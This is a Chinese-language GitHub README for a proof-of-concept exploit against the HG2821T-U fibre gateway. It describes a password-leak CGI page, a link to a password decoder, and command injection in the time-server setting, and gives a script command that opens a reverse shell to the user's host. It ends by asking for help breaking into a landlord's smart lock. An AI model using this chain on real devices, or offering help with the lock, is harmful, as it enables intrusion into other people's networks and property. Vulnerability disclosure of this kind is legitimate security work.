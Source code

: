 # HG2821T-U_PoC
电信光猫HG2821T-U家庭网关代码执行反弹shell的PoC

## 类Freebuf标题：看我如何日穿你家的光猫 
2017年年中安装的电信光猫，18年年末又换了一次，听安装人员说是最新的光猫。8080端口存在一个烽火的后台管理系统，测试时发现一个密码信息泄露页面存在硬编码的认证口令，还碰巧发现一个代码执行漏洞。从配置文件来看，设备在全国各个省份都有使用。
```
虽然分配了公网地址，但是默认不会对外开放端口，所以漏洞没法远程利用。
```
其实是大概17年底发现的，前阵子突然发现关于这个光猫的帖子好多来了好多，发现漏洞还在就交了补天，结果审核通过之后，因为“原则”问题没有收，然后就顺道交了CNVD骗张证书。
其实危害不大，所以给大家测试玩玩。
```
漏洞其实是烽火开发的天翼带宽家庭网关的问题，所以其他型号的光猫其实不一定没有。
```
### 臆想的利用场景
可以连接使用了这种光猫的公共场所的wifi（但是感觉商场应该不会用这种家用光猫）

## 漏洞利用
这系统有个信息泄露直接将密码编码显示，在这个页面
```
http://192.168.x.1/cgi-bin/baseinfoSet.cgi
```
![image](https://github.com/C4o/HG2821T-U_PoC/blob/master/1.png)
一开始没找着，隔了一阵子就发现有老大哥搞定了编码规则：
```
http://koolshare.cn/forum.php?mod=viewthread&tid=125090&highlight=hg2821
```
可以成功解密登陆，后来发现每一台光猫的密码都不一样（吐槽那位补天审核人员的“原则”问题）。
登陆后的设置时间页面，就能看到一个设置时间服务器的功能，测试一下就容易发现存在命令执行漏洞了。（看到过很多类似的文章，一时间找竟然找不着了。。）

## 脚本使用
```
python HG2821T-U_PoC.py http://192.168.x.1:8080 reverse_ip:reverse:port
```
效果图
![image](https://github.com/C4o/HG2821T-U_PoC/blob/master/3.png)

## 学习交流
最近房东装了智能门锁，但是太菜搞不进去，不知道有没有大师傅肯教教我。
当然，如果有老哥乐意加我扯淡吹牛也同样ojbk。
![image](https://github.com/C4o/HG2821T-U_PoC/blob/master/2.png)
